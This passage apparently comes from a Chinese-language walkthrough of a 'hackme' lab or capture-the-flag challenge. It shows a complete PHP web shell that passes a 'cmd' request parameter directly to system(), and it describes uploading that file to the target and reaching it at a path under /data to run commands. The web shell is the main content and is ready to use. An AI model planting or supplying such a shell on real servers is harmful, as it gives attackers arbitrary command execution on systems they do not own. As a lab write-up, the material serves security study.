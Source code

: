 ![](./pic-hackme/31.jpg)

我这里就上传文件执行的代码为示例

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

这时候再上传这个文件，访问的时候，直接访问`/data/1048576/7/1.php`，发现成功

![](./pic-hackme/32.jpg)
